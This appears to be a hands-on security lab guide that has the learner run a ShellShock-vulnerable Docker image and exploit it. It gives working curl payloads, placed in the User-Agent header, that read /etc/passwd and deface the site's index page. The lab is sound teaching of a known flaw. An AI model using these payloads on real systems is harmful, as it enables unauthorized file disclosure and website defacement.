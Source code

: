 # **Vulnerable Libraries**

---

> #### Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.

### **Lab Image : `Containers`**

---

#### Step 1:

* Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Fetch the public IP of the server

```commandline
serverip
```

---

#### Step 2:

* Verify that is application is running by accessing it on the browser

```commandline
echo "http://$(serverip):8080"
```

* Exploit the vulnerability and access `/etc/passwd` of the vulnerable container

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$(serverip):8080/cgi-bin/vulnerable
```

* By exploiting ShellShock, deface the website

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://$(serverip):8080/cgi-bin/vulnerable
```

* Verify by accessing the application on the browser

```commandline
echo "http://$(serverip):8080"
```

---

#### Step 3:

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:
